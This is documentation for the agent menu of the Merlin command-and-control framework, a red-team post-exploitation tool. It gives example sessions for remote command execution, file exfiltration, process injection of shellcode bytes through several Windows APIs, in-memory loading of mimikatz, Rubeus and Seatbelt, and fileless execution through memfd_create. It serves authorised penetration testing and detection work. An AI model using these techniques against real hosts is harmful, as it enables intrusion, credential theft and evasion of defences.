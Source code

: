 ###########
Agent Menu
###########

The agent menu context is used to interact with a single agent. The Merlin prompt will include the word ``agent`` along with the identifier for the selected agent. Type ``help`` to see a list of available commands for the agent menu context.

help
----

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» help

           COMMAND      |          DESCRIPTION           |            OPTIONS
    +-------------------+--------------------------------+--------------------------------+
      cd                | Change directories             | cd ../../ OR cd c:\\Users
      clear             | Clear any UNSENT jobs from the |
                        | queue                          |
      cmd               | Execute a command on the agent | cmd ping -c 3 8.8.8.8
                        | (DEPRECIATED)                  |
      back              | Return to the main menu        |
      download          | Download a file from the agent | download <remote_file>
      execute-assembly  | Execute a .NET 4.0 assembly    | execute-assembly <assembly
                        |                                | path> [<assembly args>,
                        |                                | <spawnto path>, <spawnto
                        |                                | args>]
      execute-pe        | Execute a Windows PE (EXE)     | execute-pe <pe path> [<pe
                        |                                | args>, <spawnto path>,
                        |                                | <spawnto args>]
      execute-shellcode | Execute shellcode              | self, remote <pid>,
                        |                                | RtlCreateUserThread <pid>
      ifconfig          | Displays host network adapter  |
                        | information                    |
      info              | Display all information about  |
                        | the agent                      |
      invoke-assembly   | Invoke, or execute, a .NET     | <assembly name>, <assembly
                        | assembly that was previously   | args>
                        | loaded into the agent's        |
                        | process                        |
      jobs              | Display all active jobs for    |
                        | the agent                      |
      kill              | Instruct the agent to die or   |
                        | quit                           |
      load-assembly     | Load a .NET assembly into the  | <assembly path> [<assembly
                        | agent's process                | name>]
      list-assemblies   | List the .NET assemblies that  |
                        | are loaded into the agent's    |
                        | process                        |
      ls                | List directory contents        | ls /etc OR ls C:\\Users OR ls
                        |                                | C:/Users
      main              | Return to the main menu        |
      memfd             | Execute Linux file in memory   | <file path> [<arguments>]
      nslookup          | DNS query on host or ip        | nslookup 8.8.8.8
      pwd               | Display the current working    | pwd
                        | directory                      |
      run               | Execute a program directly,    | run ping -c 3 8.8.8.8
                        | without using a shell          |
      set               | Set the value for one of the   | ja3, killdate, maxretry,
                        | agent's options                | padding, skew, sleep
      sharpgen          | Use SharpGen to compile and    | sharpgen <code> [<spawnto
                        | execute a .NET assembly        | path>, <spawnto args>]
      shell             | Execute a command on the agent | shell ping -c 3 8.8.8.8
                        | using the host's default shell |
      status            | Print the current status of    |
                        | the agent                      |
      upload            | Upload a file to the agent     | upload <local_file>
                        |                                | <remote_file>
      *                 | Anything else will be execute  |
                        | on the host operating system   |
    Agent Help Menu

cd
--

The ``cd`` command is used to change the current working directory the Merlin agent is using. Relative paths can be used (e.g.,. ``./../`` or ``downloads\\Merlin``). This command uses native Go and will not execute the ``cd`` binary program found on the host operating system.

| The ``\`` in a Windows directory must be escaped like ``C:\\Windows\\System32``.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» cd /usr/bin
    [-]Created job evtawDqBWa for agent a98e6175-7799-47fb-abf0-32534a9191f0 at 2019-02-27T01:03:57Z
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job evtawDqBWa at 2019-02-27T01:03:59Z
    Changed working directory to /usr/bin

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» cd "C:\\Program Files (x86)\\"
    [-]Created job gwFQhcsKJi for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 at 2019-02-27T01:17:26Z
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job gwFQhcsKJi at 2019-02-27T01:17:30Z
    Changed working directory to C:\Program Files (x86)

clear
-----

The ``clear`` command will cancel all jobs in the queue that have not been sent to the agent yet.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» clear
    [+] jobs cleared for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

back
----

The ``back`` command is used to leave the Agent menu and return back to the :doc:`main`.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» back
    Merlin»

download
--------

The ``download`` command is used to download a file from the host where the agent is running back to the Merlin server. The file will be automatically saved in a folder with a name of the agent's identifier in the `data\agents\c1090dbc-f2f7-4d90-a241-86e0c0217786` directory.

.. note::
    Because ``\`` is used to escape a character, file paths require two (e.g., ``C:\\Windows``)

.. note::
    Enclose file paths containing a space with quotation marks (e.g.,. ``"C:\\Windows\\Program Files\\"``)

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» download C:\\Windows\\hh.exe
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job NXnhJVRUSP for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [+]Results for job NXnhJVRUSP
    [+]Successfully downloaded file C:\Windows\hh.exe with a size of 17920 bytes from agent to C:\merlin\data\agents\c1090dbc-f2f7-4d90-a241-86e0c0217786\hh.exe
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»

exit
----

The ``exit`` command is used to quit the Merlin server. The user will be prompted for confirmation to prevent from accidentally quitting the program. The confirmation prompt can be skipped with ``exit -y``.

.. code-block:: text

    Merlin» exit

    Are you sure you want to exit? [yes/NO]:
    yes
    [!]Quitting...

execute-assembly
-----------------

The ``execute-assembly`` command uses `go-donut <https://github.com/Binject/go-donut>`_ to convert a .NET assembly into shellcode and then uses the ``windows/x64/go/exec/createProcess`` Merlin module to execute the shellcode.

Currently this command only supports .NET v4.0 assemblies. For more granular control, use the ``windows/x64/go/exec/donut`` module.

The command is executed as: ``execute-assembly <assembly path> [<assembly args> <spawnto path> <spawnto args>]``

The command requires the file path to the assembly you wish to execute in the ``<assembly path>`` argument. All other arguments are optional. The ``<spawnto path>`` argument is the process that will be started on the target and where the shellcode will be injected and executed. If a ``<spawnto path>`` is not provided, ``C:\WIndows\System32\dllhost.exe`` will be used. The ``<spawnto args>`` value is used as an argument when starting the spawnto process.

.. note::
    Because ``\`` is used to escape a character, file paths require two (e.g., ``C:\\Windows``)

.. note::
    Use quotes to enclose multiple arguments for ``<assembly args>`` (e.g., ``execute-assembly Seatbelt.exe "LocalGroups LocalUsers"``)

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-assembly Seatbelt.exe "DotNet IdleTime" "C:\\Windows\\System32\\WerFault.exe" /?
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-] Created job dmAfzDPUsM for agent c1090dbc-f2f7-4d90-a241-86e0c0217786


    [+] Results for c1090dbc-f2f7-4d90-a241-86e0c0217786 job dmAfzDPUsM



                            %&&@@@&&
                            &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
                            &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
    %%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
    #%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
    #%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
    #####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
    #######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
    ###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
    #####%######################  %%%..                       @////(((&%%%%%%%################
                            &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
                            &%%&&&%%%%%        v1.1.0         ,(((&%%%%%%%%%%%%%%%%%,
                             #%%%%##,


    ====== DotNet ======

      Installed CLR Versions
          2.0.50727
          4.0.30319

      Installed .NET Versions
          3.5.30729.4926
          4.8.03752

      Anti-Malware Scan Interface (AMSI)
          OS supports AMSI           : True
         .NET version support AMSI   : True
            [!] The highest .NET version is enrolled in AMSI!
            [*] You can invoke .NET version 3.5 to bypass AMSI.
    ====== IdleTime ======

      CurrentUser : DESKTOP-H35RK21\rastley
      Idletime    : 00h:06m:02s:766ms (362766 milliseconds)



    [*] Completed collection in 0.122 seconds

execute-pe
-----------------

The ``execute-pe`` command uses `go-donut <https://github.com/Binject/go-donut>`_ to convert a Windows Portable Executable (PE), commonly an .exe, into shellcode and then uses the ``windows/x64/go/exec/createProcess`` Merlin module to execute the shellcode.

The command is executed as: ``execute-pe <pe path> [<pe args> <spawnto path> <spawnto args>]``

The command requires the file path to the PE you wish to execute in the ``<pe path>`` argument. All other arguments are optional. The ``<spawnto path>`` argument is the process that will be started on the target and where the shellcode will be injected and executed. If a ``<spawnto path>`` is not provided, ``C:\WIndows\System32\dllhost.exe`` will be used. The ``<spawnto args>`` value is used as an argument when starting the spawnto process.

.. note::
    Because ``\`` is used to escape a character, file paths require two (e.g., ``C:\\Windows``)

.. note::
    Use quotes to enclose multiple arguments for ``<pe args>`` (e.g., ``execute-pe mimikatz.exe "coffee exit"``)

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-pe mimikatz.exe "coffee exit" C:\\Windows\\System32\\WerFault.exe Testing
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-] Created job BSvJZFvbRZ for agent c1090dbc-f2f7-4d90-a241-86e0c0217786


    [+] Results for c1090dbc-f2f7-4d90-a241-86e0c0217786 job BSvJZFvbRZ


      .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
     .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
     ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
     ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
     '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
      '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

    mimikatz(commandline) # coffee

        ( (
         ) )
      .______.
      |      |]
      \      /
       `----'

    mimikatz(commandline) # exit
    Bye!


execute-shellcode
-----------------

The ``execute-shellcode`` command is used to have the Agent execute the provided shellcode. This command became available in version ``0.6.4`` and is only supported for Windows agents.

The ``execute-shellcode`` command takes the shellcode you want to execute at the last argument. Shellcode can be provided using an absolute filepath or by pasting it directly into the terminal in one of the following formats:
  * Hex (e.g.,. `5051525356`)
  * ``0x50, 0x51, 0x52, 0x53, 0x56`` with or without spaces and commas
  * ``\x50\x51\x52\x53\x56``
  * Base64 encoded version of the above formats
  * A file containing any of the above formats or just a raw byte file

.. warning::
    Shellcode injection and execution could cause a process to crash so choose wisely

.. note::
    If Cobalt Strike's Beacon is injected using one of these methods, exiting the Beacon will cause the process to die too.

The agent can execute shellcode using one of the following methods:
  * self_
  * remote_
  * RtlCreateUserThread_
  * UserAPC_

.. _self:

self
^^^^

The ``self`` method allocates space within the Merlin Agent process and executes the shellcode.

Syntax is ``execute-shellcode self <SHELLCODE>``

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-shellcode self 505152535657556A605A6863616C6354594883EC2865488B32488B7618488B761048AD488B30488B7E3003573C8B5C17288B741F204801FE8B541F240FB72C178D5202AD813C0757696E4575EF8B741F1C4801FE8B34AE4801F799FFD74883C4305D5F5E5B5A5958C3
    [-]Created job joQNJONrEK for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job joQNJONrEK
    [+]Shellcode executed successfully


remote
^^^^^^

The ``remote`` method creates a thread in another process using the `CreateRemoteThreadEx <https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createremotethreadex>`_ Windows API call.

Syntax is ``execute-shellcode remote <PID> <SHELLCODE>`` where PID is the Process ID you want to execute the shellcode under.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-shellcode remote 6560 0x50, 0x51, 0x52, 0x53, 0x56, 0x57, 0x55, 0x6A, 0x60, 0x5A, 0x68, 0x63, 0x61, 0x6C, 0x63, 0x54, 0x59, 0x48, 0x83, 0xEC, 0x28, 0x65, 0x48, 0x8B, 0x32, 0x48, 0x8B, 0x76, 0x18, 0x48, 0x8B, 0x76, 0x10, 0x48, 0xAD, 0x48, 0x8B, 0x30, 0x48, 0x8B, 0x7E, 0x30, 0x03, 0x57, 0x3C, 0x8B, 0x5C, 0x17, 0x28, 0x8B, 0x74, 0x1F, 0x20, 0x48, 0x01, 0xFE, 0x8B, 0x54, 0x1F, 0x24, 0x0F, 0xB7, 0x2C, 0x17, 0x8D, 0x52, 0x02, 0xAD, 0x81, 0x3C, 0x07, 0x57, 0x69, 0x6E, 0x45, 0x75, 0xEF, 0x8B, 0x74, 0x1F, 0x1C, 0x48, 0x01, 0xFE, 0x8B, 0x34, 0xAE, 0x48, 0x01, 0xF7, 0x99, 0xFF, 0xD7, 0x48, 0x83, 0xC4, 0x30, 0x5D, 0x5F, 0x5E, 0x5B, 0x5A, 0x59, 0x58, 0xC3
    [-]Created job PRumZQYBFR for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job PRumZQYBFR
    [+]Shellcode executed successfully

.. _RtlCreateUserThread:

RtlCreateUserThread
^^^^^^^^^^^^^^^^^^^

The ``rtlcreateuserthread`` method creates a thread in another process using the undocumented `RtlCreateUserThread <http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FExecutable%20Images%2FRtlCreateUserThread.html>`__ Windows API call.

Syntax is ``execute-shellcode rtlcreateuserthread <PID> <SHELLCODE>`` where PID is the Process ID you want to execute the shellcode under.

Example:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-shellcode RtlCreateUserThread 6560 \x50\x51\x52\x53\x56\x57\x55\x6A\x60\x5A\x68\x63\x61\x6C\x63\x54\x59\x48\x83\xEC\x28\x65\x48\x8B\x32\x48\x8B\x76\x18\x48\x8B\x76\x10\x48\xAD\x48\x8B\x30\x48\x8B\x7E\x30\x03\x57\x3C\x8B\x5C\x17\x28\x8B\x74\x1F\x20\x48\x01\xFE\x8B\x54\x1F\x24\x0F\xB7\x2C\x17\x8D\x52\x02\xAD\x81\x3C\x07\x57\x69\x6E\x45\x75\xEF\x8B\x74\x1F\x1C\x48\x01\xFE\x8B\x34\xAE\x48\x01\xF7\x99\xFF\xD7\x48\x83\xC4\x30\x5D\x5F\x5E\x5B\x5A\x59\x58\xC3
    [-]Created job CCWrmdLIFQ for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job CCWrmdLIFQ
    [+]Shellcode executed successfully

UserAPC
^^^^^^^

.. _UserAPC:

The ``userapc`` method creates a thread in another process using the `QueueUserAPC <https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-queueuserapc>`__ Windows API call.

Syntax is ``execute-shellcode userapc <PID> <SHELLCODE>`` where PID is the Process ID you want to execute the shellcode under.

.. note::
    This method is highly unstable and therefore was intentionally not added to the tab completion list of available methods. The current implementation requires the process to have more than 1 thread. All remaining threads will have a user-mode APC queued to execute the shellcode and could result in multiple instances of execution. This method frequently causes processes to crash. Additionally, the shellcode might not execute at all if none of the threads were in an alertable state. The ``svchost.exe`` process usually provides a little better choice, but still not guaranteed.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-shellcode userapc 4824 /home/rickastley/calc.bin
    [-]Created job NPQGRntaQX for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job NPQGRntaQX
    [+]Shellcode executed successfully

ifconfig
--------

The ``ifconfig`` command will enumerate all of the host's network interfaces and return their configuration.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-] Created job SEbZZEzGeH for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job SEbZZEzGeH for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Ethernet0
      MAC Address   00:0c:29:04:29:9d
      IP Address    192.168.1.132
      Subnet Mask   255.255.255.0
      Gateway       192.168.153.2
      DHCP          Enabled
      DHCP Server:  192.168.1.254

    Bluetooth Network Connection
      MAC Address   f4:02:28:35:ae:b6
      IP Address    0.0.0.0
      Subnet Mask   0.0.0.0
      Gateway       0.0.0.0
      DHCP          Enabled
      DHCP Server:


info
----

The ``info`` command is used to get information about a specific agent.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» info

    +---------------------------+-----------------------------------------------+
    | ID                        | c1090dbc-f2f7-4d90-a241-86e0c0217786          |
    | Platform                  | windows                                       |
    | Architecture              | amd64                                         |
    | UserName                  | ACME\Dade                                     |
    | User GUID                 | S-1-5-21-988272595-2747325887-1861723304-1002 |
    | Hostname                  | WIN-7PD32                                     |
    | Process ID                | 4120                                          |
    | IP                        | [fe80::8893:b524:821:31ba/64                  |
    |                           | 169.254.49.186/16                             |
    |                           | 192.168.1.104/24 fe80::fd43:1a37:b31b:9788/64 |
    | Initial Check In          | 2017-11-22 11:36:47.4171802 -0500 EST         |
    |                           | m=+7.606503201                                |
    | Last Check In             | 2017-11-22 12:26:50.1984432 -0500 EST         |
    |                           | m=+3010.387766201                             |
    | Agent Version             | 0.5.0 Beta                                    |
    | Agent Build               | nonRelease                                    |
    | Agent Wait Time           | 30s                                           |
    | Agent Wait Time Skew      | 5                                             |
    | Agent Message Padding Max | 4096                                          |
    | Agent Max Retries         | 7                                             |
    | Agent Kill Date           | 1970-01-01T00:00:00Z                          |
    | Agent Failed Logins       | 0                                             |
    +---------------------------+-----------------------------------------------+

invoke-assembly
---------------

The ``invoke-assembly`` command will execute a .NET assembly that was previously loaded into the agent with the
load-assembly_ command. The first argument is the name of the assembly and all the remaining arguments are passed to
the assembly for execution. Use the list-assemblies_ command return a list of loaded assemblies.
The execute-assembly_ command is different because it uses injection to run the assembly in a child process.
This command runs the assembly in the current process without injection.

.. note::
    Only CLR v4 is currently supported which can be used to execute both v3.5 and v4 .NET assemblies

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» invoke-assembly Rubeus.exe klist
    [-] Created job GlPHKaRtmg for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job GlPHKaRtmg for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.5.0


    Action: List Kerberos Tickets (Current User)

    [*] Current LUID    : 0x37913

jobs
----

The ``jobs`` command will display a table of all active jobs assigned to the agent. The output will not include jobs that have already completed.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» jobs

          ID     | STATUS  |     TYPE     |       CREATED        |         SENT
    +------------+---------+--------------+----------------------+----------------------+
      whFGRWHudV | Sent    | NativeCmd    | 2020-12-18T11:45:07Z | 2020-12-18T11:45:38Z
      UxegCkyROR | Sent    | AgentControl | 2020-12-18T11:45:11Z | 2020-12-18T11:45:38Z
      YqhfUvxkqZ | Created | CmdPayload   | 2020-12-18T11:45:44Z |


kill
----

The ``kill`` control type instructs the agent to exit or die. There is no response on the CLI after the instruction has been provided to the agent. This command is also an alias for agent -> control -> <agent ID> -> kill. This is the shortest way to quickly kill an agent.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» kill
    Merlin» [-]Created job goaRNhTVTT for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

list-assemblies
---------------

The ``list-assemblies`` command lists .NET assemblies that have been loaded into the agent's process with the load-assembly_ command.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» list-assemblies
    [-] Created job NIflRstGrR for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job NIflRstGrR for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Loaded Assemblies:
    seatbelt.exe
    rubeus.exe
    sharpdpapi.exe
    sharpup.exe
    Hagrid

load-assembly
-------------

The ``load-assembly`` command loads a .NET assembly into the agent's process. Once the assembly is loaded, it can be executed
multiple times with the invoke-assembly_ command. The .NET assembly is only sent across the wire one time.
An option third argument can be provided to reference the assembly as any other name when executed with the
invoke-assembly_ command.

.. note::
    Only CLR v4 is currently supported which can be used to execute both v3.5 and v4 .NET assemblies

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» load-assembly /root/Rubeus.exe
    [-] Created job iQOkWgGqkJ for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job iQOkWgGqkJ for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] successfully loaded rubeus.exe into the default AppDomain

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» load-assembly /root/Rubeus.exe Hagrid
    [-] Created job YrPdQkcuTG for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job YrPdQkcuTG for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] successfully loaded Hagrid into the default AppDomain

ls
--

The ``ls`` command is used to list a directory's contents using native Go functions within Merlin. This command will not execute the ``ls`` or ``dir`` binary programs found on their associated host operating systems. If a directory is not specified, Merlin will list the contents of the current working directory. When specifying a Windows path, you must escape the backslash (e.g.,. `C:\\Temp`). Wrap file paths containing a space in quotations. Alternatively, Linux file paths with a space can be called without quotes by escaping the space (e.g.,. ``/root/some\ folder/``). Relative paths can be used (e.g.,. ``./../`` or ``downloads\\Merlin``) and they are resolved to their absolute path.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» ls /var
    [-]Created job eNJKIiLXXH for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job eNJKIiLXXH
    Directory listing for: /var

    drwxr-xr-x      2019-02-06 00:05:17     4096    backups
    drwxr-xr-x      2018-12-24 14:40:14     4096    cache
    dgtrwxrwxrwx    2019-02-06 00:05:16     4096    crash
    drwxr-xr-x      2019-01-17 21:24:30     4096    lib
    dgrwxrwxr-x     2018-04-24 04:34:22     4096    local
    Lrwxrwxrwx      2018-11-07 21:33:01     9       lock
    drwxrwxr-x      2019-02-06 00:05:39     4096    log
    dgrwxrwxr-x     2018-07-24 23:03:56     4096    mail
    dgtrwxrwxrwx    2018-07-24 23:09:50     4096    metrics
    drwxr-xr-x      2018-07-24 23:03:56     4096    opt
    Lrwxrwxrwx      2018-11-07 21:33:01     4       run
    drwxr-xr-x      2018-11-07 21:45:43     4096    snap
    drwxr-xr-x      2018-11-07 21:38:04     4096    spool
    dtrwxrwxrwx     2019-02-06 00:05:38     4096    tmp

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» ls "C:\\Program Files (x86)\\"
    [-]Created job ggQPFQhTrC for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job ggQPFQhTrC
    Directory listing for: C:\Program Files (x86)

    drwxrwxrwx      2018-09-15 00:42:33     0       Common Files
    drwxrwxrwx      2018-09-15 02:08:27     0       Internet Explorer
    drwxrwxrwx      2018-09-15 00:33:50     0       Microsoft.NET
    drwxrwxrwx      2018-09-15 02:07:46     0       Windows Defender
    drwxrwxrwx      2018-12-27 12:42:42     0       Windows Kits
    drwxrwxrwx      2018-09-15 00:33:53     0       Windows Mail
    drwxrwxrwx      2018-12-16 13:15:58     0       Windows Media Player
    drwxrwxrwx      2018-09-15 02:10:06     0       Windows Multimedia Platform
    drwxrwxrwx      2019-01-10 08:18:11     0       Windows Photo Viewer
    drwxrwxrwx      2018-09-15 02:10:06     0       Windows Portable Devices
    drwxrwxrwx      2018-09-15 00:33:50     0       Windows Sidebar
    drwxrwxrwx      2018-09-15 00:33:50     0       WindowsPowerShell
    -rw-rw-rw-      2018-09-15 00:31:34     174     desktop.ini
    drwxrwxrwx      2018-09-15 00:42:33     0       windows nt

main
----

The ``main`` command is used to leave the Agent menu and return back to the :doc:`main`. It is an alias for the ``back`` command.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» main
    Merlin»

memfd
-----

The ``memfd`` command loads a Linux executable file into memory (RAM) as an anonymous file using the
`memfd_create <https://man7.org/linux/man-pages/man2/memfd_create.2.html>`__ API call, executes it, and returns the
results.
The file is created with an empty string as its name.
Less the fact that RAM is a file on Linux, the executable is not written to disk.
View the `Detecting Linux memfd_create() Fileless Malware with Command Line Forensics
<https://www.sandflysecurity.com/blog/detecting-linux-memfd_create-fileless-malware-with-command-line-forensics/>`__
for detection guidance.

.. note::
    This command will not run on Windows agents

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» memfd /tmp/hello.py
    [-] Created job ZyeWhgfThk for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job ZyeWhgfThk for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Hello from a Python script


nslookup
--------

The ``nslookup`` command takes a space separated list of IP addresses or hostnames and performs a DNS query using the
host's resolver and returns the results.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» nslookup 8.8.8.8 9.9.9.9 github.com google.com
